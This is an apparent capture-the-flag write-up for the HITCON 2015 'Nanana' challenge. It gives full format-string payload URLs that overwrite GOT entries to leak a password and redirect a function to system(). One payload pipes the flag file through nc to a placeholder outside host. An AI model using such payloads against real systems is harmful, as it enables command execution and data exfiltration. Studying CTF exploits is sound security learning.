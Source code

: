 ```yaml
---
layout: post
title: "HITCON 2015 Quals: Nanana"
modified: 2015-10-19
tags: hitcon hitcon2015quals
---
```

*This challenge was solved by and the write up was written by one of my teammates, vek.*

First, we got the correct password by changing the GOT of strlen into puts using a format string vuln, so that puts(password) got called. We did that with the following input:
{% highlight text %}
http://54.92.88.102/cgi-bin/nanana?action=%2507hhx%2515%24hhn%25057hhx%2517%24hhn%25064hhx%2521%24hhn&username=0%10%60&password=2%10%60&job=1%10%60
{% endhighlight %}

With the password ("hitconctf2015givemeshell"), we could trigger a function whose first parameter we controlled ( do_job(username) ), so all we had to do was to change do_job's address to system and username to the desired command, e.g

{% highlight text %}
http://54.92.88.102/cgi-bin/nanana?action=%250192hhx%2515%24hhn&username=%2Fread_flag|nc%20X.X.X.X%2025565&password=hitconctf2015givemeshell&job=H%10%6>
{% endhighlight %}